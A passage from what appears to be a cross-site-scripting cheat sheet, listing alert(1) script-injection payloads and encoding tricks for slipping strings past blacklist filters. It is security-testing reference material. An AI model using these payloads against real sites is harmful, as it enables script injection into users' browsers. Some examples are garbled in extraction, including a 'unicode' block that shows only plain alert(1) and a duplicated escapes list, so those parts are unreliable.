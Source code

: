This can be **abused** using:

```javascript
;`${alert(1)}``${`${`${`${alert(1)}`}`}`}`
```

```javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop() {
  return loop
}
loop``
```

### Encoded code execution

```html
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>alert(1)</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>alert(1)</iframe>">
```

### Unicode Encode JS execution

```javascript
alert(1)
alert(1)
alert(1)
```

### JavaScript bypass blacklists techniques

**Strings**

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```

**Special escapes**

```javascript
"\b" //backspace
"\f" //form feed
"\n" //new line
"\r" //carriage return
"\t" //tab
"\b" //backspace
"\f" //form feed
"\n" //new line
"\r" //carriage return
"\t" //tab
// Any other char escaped is just itself
```
